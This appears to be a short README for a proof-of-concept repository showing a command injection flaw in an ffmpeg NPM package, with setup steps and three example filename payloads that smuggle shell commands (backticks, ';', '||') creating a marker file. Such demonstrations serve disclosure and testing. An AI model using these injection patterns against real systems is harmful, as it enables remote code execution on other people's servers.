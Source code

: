 # ffmpeg-poc

This repository contains a web application that demonstrates how the command injection vulnerability in ffmpeg NPM package can be exploited.

### PoC

1. Clone the repository: `git clone https://github.com/5trCp7/ffmpeg-poc`
2. Install dependenciesw: `npm install`
3. Start the web server: `npm start`
4. Open the website using a browser
5. Upload a file with malicious filename

### Example payloads
\`touch rce\`.mp4
file.mp4;touch rce;
file.mp4||touch /tmp/rce||
